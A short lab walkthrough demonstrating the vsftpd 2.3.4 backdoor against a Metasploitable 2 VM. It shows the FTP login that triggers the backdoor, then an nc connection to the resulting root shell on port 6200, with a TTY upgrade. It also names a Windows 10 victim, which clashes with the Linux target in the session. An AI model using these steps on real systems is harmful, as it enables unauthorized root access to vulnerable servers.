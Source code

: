 VSFTPD v2.3.4 Backdoor Command Execution
**Attacker:** Kali Linux<br>
**Victim:** Windows 10<br>
<br>
VSFTPD v2.3.4 contains a backdoor that is triggered by entering **anystring:)** as the username (no password required). After the backdoor is triggered, the target machine opens a shell on port 6200.<br>
<br>
This example demonstrates it’s use on Metasploitable 2 (192.168.1.142).
##Triggering the Backdoor
<code>
<div class="code">
root@kali:~$ <com>ftp 192.168.1.142</com><br>
Connected to 192.168.1.142.<br>
220 (vsFTPd 2.3.4)<br>
Name (192.168.1.142:root):<com>123456:)</com><br>
331 Please specify the password.<br>
Password: [Enter]<br>
[CTRL+C]<br>
421 Service not available, remote server has closed connection
</div>
</code>
##Connecting to the Shell
<code>
<div class="code">
root@kali:~$ <com>nc -vn 192.168.1.142 6200</com><br>
(UNKNOWN) [192.168.1.142] 6200 (?) open<br>
<com>python -c "import pty;pty.spawn('/bin/bash')"</com><br>
root@metasploitable:/#
</div>
</code>

Tags: backdoors
